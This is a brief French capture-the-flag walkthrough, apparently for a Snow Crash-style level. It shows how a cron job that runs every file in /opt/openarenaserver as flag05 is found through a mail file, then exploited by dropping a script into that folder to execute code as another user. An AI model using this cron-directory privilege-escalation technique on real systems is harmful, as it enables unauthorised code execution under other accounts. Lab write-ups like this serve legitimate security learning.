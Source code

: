 ```bash
$>find / -user flag05 -readable 2>/dev/null
/usr/sbin/openarenaserver
```
En listant ses droits on y a accés en lecture et en le lisant le fichier nous donne l'indication du doosier /opt/openarenaserver

Après verification on peux ecrire dans le dossier /opt/openarenaserver

Le fichier nous indique que tout les fichiers dans /opt/openarenaserver seront executer puis supprimer
```bash
$>find / -name level05 2>/dev/null
/var/mail/level05
```
```bash
cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

echo "getflag > /tmp/flag" > /opt/openarenaserver/gettoken
